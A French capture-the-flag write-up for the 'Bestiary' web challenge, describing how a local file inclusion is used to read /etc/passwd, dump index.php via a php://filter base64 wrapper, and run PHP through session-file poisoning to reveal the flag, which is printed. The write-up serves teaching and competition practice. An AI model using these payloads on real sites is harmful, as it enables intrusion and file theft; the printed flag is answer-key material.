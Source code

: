 # Bestiary

Auteur : Ewaël

**Bestiary** est un des challenges web à 100 points du CTF dont voici l'enoncé:

![Bestiary](bestiary.png)

Le lien menant sur une page avec un bestiaire qui regroupait des informations sur la créature choisie.

![Index.php](index.png)

La première chose que je remarque est la manière dont la créature choisie est envoyée dans la requête: par le paramètre `monster` dans l'URL. Je teste alors directement `monster=flag` et je vois que rien ne s'affiche là où `monster=test` renvoie l'erreur suivante:

![monster=test](test.png)

C'est ainsi que je suis parti sur ma première piste: une simple LFI. En effet, `
Warning: include(/usr/local/lib/php/test): failed to open stream: No such file or directory in /var/www/html/index.php on line 33` me fait clairement penser que le serveur se contente d'afficher la page demandée, et j'imagine que si le mot *flag* est filtré, on peut quand même trouver d'autres informations intéressantes. Je commence par vérifier ma théorie en allant chercher des fichiers généralement croustillants, et effectivement, ça fonctionne:

![/etc/passwd](passwd.png)

Le problème, c'est que je n'en tire pas grand chose. Pareil du côté des hosts, fausse piste. En regardant les possibilités qu'offre la LFI, je tombe sur la bonne piste. En effet, la faille à exploiter est une application spécifique de LFI: l'utilisation des filtres php. Je comprends qu'il est possible de lire le code php de la page `index.php` grâce à cette page:

[http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php](http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php/)

J'essaie donc de passer par le base 64 en envoyant `/index.php?monster=php://filter/read=convert.base64-encode/resource=index.php` et ça fonctionne, on décode la chaine renvoyée et on récupère notre joli *index.php*:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

Je réalise tout de suite qu'effectivement le mot "flag" était bien filtré, j'ai d'ailleurs d'abord foncé tête baissée sur ce problème avant de réaliser que la solution n'était pas là. En effet ce qui m'intéresse se situe dans ces lignes:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
```

Après recherches sur ce `session_save_path` je comprends qu'on peut accéder à un fichier potentiellement intéressant dans `sessions/sess_b112ccb116944fa18da40b335829e4ae`, "b112ccb116944fa18da40b335829e4ae" étant mon cookie *PHPSESSID*. On trouve sur cette page simplement la chaine contenant notre dernière requête, dans mon cas: `monster|s:4:"test";`.

Ainsi j'ouvre un autre onglet pour envoyer la requête avec le payload, et je garde cet onglet pour rafraîchir la page une fois le payload envoyé, afin de voir le résultat. J'envoie donc d'abord `/index.php?monster=<?php%20echo%20file_get_contents("flag.php");%20?>` afin d'afficher le flag, puis je retourne sur l'onget `/index.php?monster=sessions/...` puis dans le code source, et surprise, voilà le flag:

![flag](flag.png)

`FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`

